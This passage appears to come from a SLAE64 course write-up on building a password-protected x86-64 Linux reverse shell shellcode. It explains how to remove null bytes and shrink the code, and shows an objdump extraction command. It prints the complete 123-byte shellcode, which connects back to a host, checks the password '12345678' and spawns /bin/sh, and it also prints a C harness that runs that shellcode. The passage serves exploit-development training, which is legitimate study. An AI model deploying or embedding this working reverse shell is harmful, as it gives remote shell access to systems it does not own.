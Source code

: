 - `mov rax, VALUE` is replaced by `push VALUE; pop rax`
- `mov [rsp], VALUE` is replaced by `push VALUE`

By checking with `objdump` that the NULLs have been removed, next step is to reduce the shellcode size. Some tricks are:
- Using 32, 16 or even 8 bits registers for operations instead the 64 bits register
- Using `cdq` instruction to ZEROing **RDX**. It puts **RDX** to `0x00` if **RAX** >= 0
- Replace `mov` instructions by `push;pop`

But still the shellcode size can be reduced, and can use more sophisticated techniques to even reduce it more. Original code is using Relative Addressing for the Password Stuff. This technique forces the use of 16 bytes just to store the strings (as they are in the code section of the program), and to use `lea` instruction, with a opcode that uses 7 bytes. For this, the Stack Technique is going to be used for the Password Stuff, to replace Relative Addressing. Just like did in previous assignment.

With all the job done, the shellcode is generated with the one liner command for `objdump`:
```bash
SLAE64>echo “\"$(objdump -d ReverseShell-ExecveStack_V2.o | grep '[0-9a-f]:' | 
              cut -d$'\t' -f2 | grep -v 'file' | tr -d " \n" | sed 's/../\\x&/g')\""" 
              
"\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x50\x5f\x52\x68\x7f\x01\x01\x01\x66\x68
\x11\x5c\x66\x6a\x02\x6a\x2a\x58\x54\x5e\x6a\x10\x5a\x0f\x05\x6a\x02\x5e\x6a\x21\x58\x0f
\x05\x48\xff\xce\x79\xf6\x6a\x01\x58\x49\xb9\x50\x61\x73\x73\x77\x64\x3a\x20\x41\x51\x54
\x5e\x6a\x08\x5a\x0f\x05\x48\x31\xc0\x48\x83\xc6\x08\x0f\x05\x48\xb8\x31\x32\x33\x34\x35
\x36\x37\x38\x56\x5f\x48\xaf\x75\x1a\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f
\x73\x68\x53\x54\x5f\x52\x54\x5a\x57\x54\x5e\x0f\x05"

SLAE64> 
```
<img src="https://galminyana.github.io/img/A02_ReverseShell-ExecveStack_Shellcode01.png" width="75%" height="75%">

This shellcode could be more reduced, removing the stuff to print the `"Passwd: "` prompt. `sys_close` haven't been used in this assignment. But with the reduction to **123 bytes** is good enought.

### Executing Final Shellcode
---
To test the shellcode, the `shellcode.c` template is used:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
To use it, the generated shellcode has to be placed in the `unsigned char code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x50\x5f\x52\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x66\x6a\x02\x6a\x2a\x58\x54\x5e\x6a\x10\x5a\x0f\x05\x6a\x02\x5e\x6a\x21\x58\x0f"
"\x05\x48\xff\xce\x79\xf6\x6a\x01\x58\x49\xb9\x50\x61\x73\x73\x77\x64\x3a\x20\x41\x51\x54"
"\x5e\x6a\x08\x5a\x0f\x05\x48\x31\xc0\x48\x83\xc6\x08\x0f\x05\x48\xb8\x31\x32\x33\x34\x35"
"\x36\x37\x38\x56\x5f\x48\xaf\x75\x1a\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f"
"\x73\x68\x53\x54\x5f\x52\x54\x5a\x57\x54\x5e\x0f\x05";

```